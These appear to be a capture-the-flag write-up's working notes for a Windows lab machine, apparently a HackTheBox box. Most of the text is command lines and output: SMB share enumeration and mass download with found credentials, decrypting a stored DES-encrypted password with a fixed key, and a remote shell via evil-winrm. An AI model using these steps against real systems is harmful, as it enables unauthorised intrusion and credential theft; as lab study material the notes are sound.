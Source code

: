 
```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```

![[Pasted image 20240917012946.png]]

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
prompt off
recurse on
ls
mget *
```

![[Pasted image 20240917014153.png]]

```
<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>

<p>-- The winner of the �Best GPO� competition will be
announced on Friday so get your submissions in soon.</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p class=MsoNormal>Steve</p>

```

So the username who's password is same as admin is TempAdmin but but here is another user mentioned (i.e. Steve) will check in the userlist if we have that user or not.

```
s.smith
```


MOUNT
```
sudo mount -t cifs //10.10.10.182/Data /mnt/share -o username='r.thompson',password='rY4n5eva'
```


Let's dig the password or this user and check the remaining smb.

```
CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d
```

```
TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059
```

```
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

```
6bcf2a4b6e5aca0f
```

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

```
s.smith
```

```
sT333ve2
```


Let's check if he is having write access or we can a reverse shell 
```
cme smb 10.10.10.182 -u 's.smith' -p 'sT333ve2' --shares
```
![[Pasted image 20240917073535.png]]


```
evil-winrm -u 's.smith' -p 'sT333ve2' -i 10.10.10.182
```

```
0c69f28aea835c5aa2442a946ba64a8c
```

```
sudo mount -t cifs //10.10.10.182/Audit$ /mnt/share -o username='s.smith',password='sT333ve2'
```

